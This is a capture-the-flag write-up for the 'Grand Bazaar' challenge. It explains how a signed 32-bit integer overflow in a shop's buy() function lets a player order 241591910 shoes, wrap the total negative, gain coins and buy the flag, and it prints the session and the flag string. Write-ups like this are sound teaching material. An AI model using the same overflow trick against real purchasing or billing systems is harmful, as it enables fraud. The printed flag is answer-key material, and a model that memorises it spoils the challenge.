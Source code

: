 # Grand Bazaar writeup
We can buy some goods for coins. Flag costs 1337 coins, initially we are given 100, and there are no ways to earn more.

Let's examine **buy()**. There are several checks, if user buys something, then contents of the specific file is printed. Interestingly, all the variables (**total** and **number**) are signed. It allows us to overflow **total**. If we manage to make **total** negative, we will _get_ money after purchase. 4-bytes signed numbers are implemented in this way:

| 0 - 0x7fffffff      | 0x80000000 - 0xffffffff                         |
|---------------------|-------------------------------------------------|
| Positive numbers    | Negative numbers (where 0xffffffff is "-1")     |

To make **total** negative, we have to order a specific number of products. This number multiplied by cost has to be more than 0x7fffffff. For instance, we will use "shoes" as the way to earn coins. Let's calculate the required number:

```python
>>> 0x90000000 // 10
241591910
```

And now order 241591910 shoes:

```bash
⚸ Welcome to the Grand Bazaar! ⚸
Your current amount of money is: 100
  [1] Buy new shoes (10 coins)
  [2] Buy a new book (80 coins)
  [3] Buy a new lamp (40 coins)
  [4] Buy a new flag (1337 coins)
  [5] Exit the Bazaar
1
How much do you wish to buy???
241591910
               __
             .'--'\
         _.-'_  __/
        (_.'--'\|_|
      _.-`   __/
     (_____.'|_|

⚸ Welcome to the Grand Bazaar! ⚸
Your current amount of money is: 1879048296
  [1] Buy new shoes (10 coins)
  [2] Buy a new book (80 coins)
  [3] Buy a new lamp (40 coins)
  [4] Buy a new flag (1337 coins)
  [5] Exit the Bazaar
4
How much do you wish to buy???
1
     ___
     \_/
      |._
      |'."-.._.-""--.-"-.__.-"-.__.-"-.__.-'/
      |  \                                 (
      |   |                                 )
      |   | li2CTF{7H4nk5__f0R_pUrch453!!} /
      |  /                                /
      |.'                                (
      |.-"-..__.-""-.__.-"-.-_.-"-.-_.-"-.)
      |
      |
      |
      |
      |
      |

⚸ Welcome to the Grand Bazaar! ⚸
Your current amount of money is: 1879046959
  [1] Buy new shoes (10 coins)
  [2] Buy a new book (80 coins)
  [3] Buy a new lamp (40 coins)
  [4] Buy a new flag (1337 coins)
  [5] Exit the Bazaar
```

P.S.

- Shoes ASCII-art is taken from https://www.asciiart.eu/clothing-and-accessories/footwear
- Book ASCII-art is taken from https://textart.io/art/tag/book/1
- Lamp ASCII-art is taken from https://ascii.co.uk/art/lamp
- Flag ASCII-art is taken from https://textart.io/art/tag/flag/1

Flag: `li2CTF{7H4nk5__f0R_pUrch453!!}`
